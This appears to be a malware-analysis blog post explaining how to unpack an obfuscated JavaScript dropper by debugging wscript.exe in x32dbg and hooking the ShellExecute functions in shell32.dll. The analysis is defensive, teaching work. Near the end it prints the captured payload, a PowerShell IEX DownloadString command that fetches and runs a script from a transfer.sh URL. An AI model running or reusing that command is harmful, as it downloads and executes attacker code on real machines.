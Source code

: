 Analysis of a JavaScript loader by hooking Windows API functions.

`Hash: a3937eb4681dc2a090360d9220c42ca25b51075542902a647839fe5f3c892097`

`Sample:  [Here](https://bazaar.abuse.ch/sample/a3937eb4681dc2a090360d9220c42ca25b51075542902a647839fe5f3c892097/#intel)`

***Overview***

Obfuscated JavaScript dropper which downloads the next stage for a Trojan. When trying to view the JavaScript, we can see that it is highly obfuscated.

![image](https://user-images.githubusercontent.com/95584654/159395273-2e779564-f2f4-4ab7-84b5-6b3368709c5e.png)

While we could try and figure out how to deobfuscate the loader, we can bypass this by hooking Windows API functions from shell32.dll.

We can use x32dbg to hook functions like ShellExecuteExW and or ShellExecuteExA to catch the loader before it executes any commands to reach out and download the next stage.

Review my other blog post [here](https://koi0x.github.io/Hooking-Windows-API-Functions-to-Analyze-JavaScript-VBScript-loaders/) for a reference.

***Debugging The Loader***

Firstly, we need to load wscript.exe into x32dbg. We need to do this because wscript.exe is the application that will act as the proxy between the JavaScript loader and the Windows API. You can find this in `C:\Windows\SysWOW64\wscript.exe`

Next, edit the command line to pass in the loader to be run with wscript.exe. Do this by going to `File -> Change Command Line`

Set a breakpoint on shell32.dll. We need to break when the DLL is loaded into memory so we can then set breakpoints on the imports.

![image](https://user-images.githubusercontent.com/95584654/159395305-f681217b-dbae-4c9f-89dd-73fa665030d9.png)

Now we need to set breakpoints on common function calls that are used to execute shell commands. Navigate to the symbols page and find shell32.dll and then search for ShellExecute. This will return all of the Windows API functions that will execute shell commands. Remember that we do not know what function is exactly being used in the loader. Given this, it is best practice to set breakpoints on all of them to have a fallback.

![image](https://user-images.githubusercontent.com/95584654/159395358-27c03409-731b-40e9-b1ec-cf89e11f831a.png)

Now with the breakpoint set, we can go ahead and continue the execution of the loader. At this point, we will hit a breakpoint on the function ShellExecuteExW.

![image](https://user-images.githubusercontent.com/95584654/159395404-7b326a99-5ce4-4366-9f7b-a4ffb7619322.png)

At this point, we can look at the current stack frame to see the parameters that are being passed into the ShellExecuteExW function. Reviewing the stack frame, we can see the loader is calling the following:

`Powershell.exe IEX(New-Object Net.Webclient).DownloadString('https://transfer.sh/get/kVRjSF/ttttyyyyyyy.ps1')`

![image](https://user-images.githubusercontent.com/95584654/159395443-ccd5d2c5-a97b-463c-90f4-6055c6be2620.png)

While I am not going to look further into this sample chain, I mainly wanted to write this as another example of my other blog post about hooking Windows API functions to analyze JavaScript and VBS loaders.
